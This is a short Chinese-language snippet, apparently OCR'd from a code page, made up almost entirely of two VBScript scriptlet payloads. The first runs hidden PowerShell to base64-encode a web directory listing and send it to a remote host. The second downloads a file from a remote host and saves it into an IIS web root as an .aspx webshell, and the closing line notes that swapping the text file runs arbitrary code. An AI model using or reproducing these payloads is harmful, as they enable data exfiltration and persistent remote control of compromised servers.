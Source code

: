 列目录：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
<![CDATA[
Sub getName(name)
  	Dim http
	Set http = CreateObject("Msxml2.ServerXMLHTTP")
	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
	http.send
End Sub

Sub Cmd(command)
Set oShell = CreateObject("WScript.Shell")
Set Re = oShell.Exec(command)

Do While Not Re.StdOut.AtEndOfStream
	getName Re.StdOut.ReadLine()
Loop
End Sub

Cmd "powershell -w hidden -c $s=Get-ChildItem D:\web4_new\;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
]]>
		</script>
	</registration>
</scriptlet>
```

下载Webshell：

```
<?XML version="1.0"?>
<scriptlet>
	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
		<script language="vbscript">
		<![CDATA[
Set Shell = CreateObject("Wscript.Shell")
Set Post = CreateObject("Msxml2.XMLHTTP")
wfolder = "C:\inetpub\wwwroot\xxx\111english.aspx"
Post.Open "GET","http://xxx.xxxx.xxx.xxx:85/bak/english.txt",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)

aGet.SaveToFile wfolder,2

		]]>
		</script>
	</registration>
</scriptlet>
```
通过指定不同的txt，执行不同的代码。
